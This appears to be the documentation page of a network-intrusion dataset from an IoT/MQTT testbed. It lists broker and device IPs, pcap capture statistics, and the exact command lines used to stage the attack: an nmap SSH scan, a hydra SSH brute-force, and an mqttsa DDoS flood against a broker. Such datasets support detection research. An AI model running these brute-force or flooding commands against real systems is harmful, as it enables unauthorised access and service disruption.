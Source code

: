 # ip of mqtt brokers

- 192.168.2.1
- 192.168.3.1
- 192.168.0.4


# command line executed during attack
## arguments to append to the nmap scan 

`./nmap -Pn -oG ips.txt 192.168.18-20.10-150 --max-rate 0.7 -p 22`

## arguments to append to the hydra bruteforce on ssh: 

`hydra/hydra -o success.txt -M ssh_ips.txt ssh -f -L u.txt -P p.txt -t 2`

## arguments when lauching DDoS: 

`mqttsa -fc 100 -fcsize 10 -sc 2400 192.168.2.1`

# legitimate and malicious (DDoS) ips

### legitimate ips

450 IoT publishing MQTT messages

192.168.18.10 to 192.168.18.234
192.168.19.10 to 192.168.19.234

### compromised IoT ips launching DDoS

60 compromised IoT

- 192.168.18.10
- 192.168.18.104
- 192.168.18.109
- 192.168.18.115
- 192.168.18.118
- 192.168.18.119
- 192.168.18.125
- 192.168.18.126
- 192.168.18.128
- 192.168.18.131
- 192.168.18.132
- 192.168.18.135
- 192.168.18.136
- 192.168.18.140
- 192.168.18.144
- 192.168.18.146
- 192.168.18.147
- 192.168.18.31
- 192.168.18.55
- 192.168.18.56
- 192.168.18.57
- 192.168.18.58
- 192.168.18.73
- 192.168.18.74
- 192.168.18.75
- 192.168.18.77
- 192.168.18.78
- 192.168.18.88
- 192.168.18.96
- 192.168.18.99
- 192.168.19.105
- 192.168.19.106
- 192.168.19.107
- 192.168.19.110
- 192.168.19.112
- 192.168.19.116
- 192.168.19.117
- 192.168.19.124
- 192.168.19.133
- 192.168.19.139
- 192.168.19.141
- 192.168.19.144
- 192.168.19.148
- 192.168.19.22
- 192.168.19.24
- 192.168.19.26
- 192.168.19.33
- 192.168.19.38
- 192.168.19.47
- 192.168.19.49
- 192.168.19.51
- 192.168.19.53
- 192.168.19.60
- 192.168.19.62
- 192.168.19.64
- 192.168.19.69
- 192.168.19.71
- 192.168.19.76
- 192.168.19.78
- 192.168.19.91


# number of packets
```text
capinfos OpenvSwitch-24_2-0_to_sinetstream-zookeeper-1_0-0.pcap 
File name:           OpenvSwitch-24_2-0_to_sinetstream-zookeeper-1_0-0.pcap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  Ethernet
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 65535 bytes
Number of packets:   26 k
File size:           2523 kB
Data size:           2107 kB
Capture duration:    49052.260802 seconds
First packet time:   2024-07-23 22:47:07.393000
Last packet time:    2024-07-24 12:24:39.653802
Data byte rate:      42 bytes/s
Data bit rate:       343 bits/s
Average packet size: 81.05 bytes
Average packet rate: 0 packets/s
SHA256:              9580271d0e3fd6cd35cb2a61421df1e07442e1ff34777df832cfbc99c15b3a4e
RIPEMD160:           8525ccd55e3cb0aa0e3ba19d76d63eb6887097fc
SHA1:                067223832397daf8c0ed579d0d147b723e8c8997
Strict time order:   True
Number of interfaces in file: 1
Interface #0 info:
                     Encapsulation = Ethernet (1 - ether)
                     Capture length = 65535
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Number of stat entries = 0
                     Number of packets = 26000
```
===============
```text
capinfos OpenvSwitch-24_4-0_to_sinetstream-connect-kafka-1_0-0.pcap 
File name:           OpenvSwitch-24_4-0_to_sinetstream-connect-kafka-1_0-0.pcap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  Ethernet
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 65535 bytes
Number of packets:   9533 k
File size:           2827 MB
Data size:           2675 MB
Capture duration:    49052.090730 seconds
First packet time:   2024-07-23 22:47:08.831569
Last packet time:    2024-07-24 12:24:40.922299
Data byte rate:      54 kBps
Data bit rate:       436 kbps
Average packet size: 280.63 bytes
Average packet rate: 194 packets/s
SHA256:              df395119bd70d26c9b5c7cdd808a140ed4c2a1a3b5c86ad4835b0e9c33daee17
RIPEMD160:           04100a6b45d21d26d9d1c33d8db88061bb407577
SHA1:                3282a7b1c51658b22b07b2207fc886c957503321
Strict time order:   False
Number of interfaces in file: 1
Interface #0 info:
                     Encapsulation = Ethernet (1 - ether)
                     Capture length = 65535
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Number of stat entries = 0
                     Number of packets = 9533058
```
===============
```text
capinfos VyOS130-1_1-0_to_VyOS130-2_1-0.pcap 
File name:           VyOS130-1_1-0_to_VyOS130-2_1-0.pcap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  Ethernet
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 65535 bytes
Number of packets:   18 M
File size:           3504 MB
Data size:           3208 MB
Capture duration:    49054.289524 seconds
First packet time:   2024-07-23 22:47:04.708480
Last packet time:    2024-07-24 12:24:38.998004
Data byte rate:      65 kBps
Data bit rate:       523 kbps
Average packet size: 173.48 bytes
Average packet rate: 377 packets/s
SHA256:              002521af0af43ea87399e043bcf4c50038ccac13078fd5c8ef406e82a5fc0ba5
RIPEMD160:           8840a477ad814de0a96bb354b59dde54d2fc3e0d
SHA1:                eed856a9a59c977575546dbaa374a8b4f5f42fdc
Strict time order:   False
Number of interfaces in file: 1
Interface #0 info:
                     Encapsulation = Ethernet (1 - ether)
                     Capture length = 65535
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Number of stat entries = 0
                     Number of packets = 18497286
```
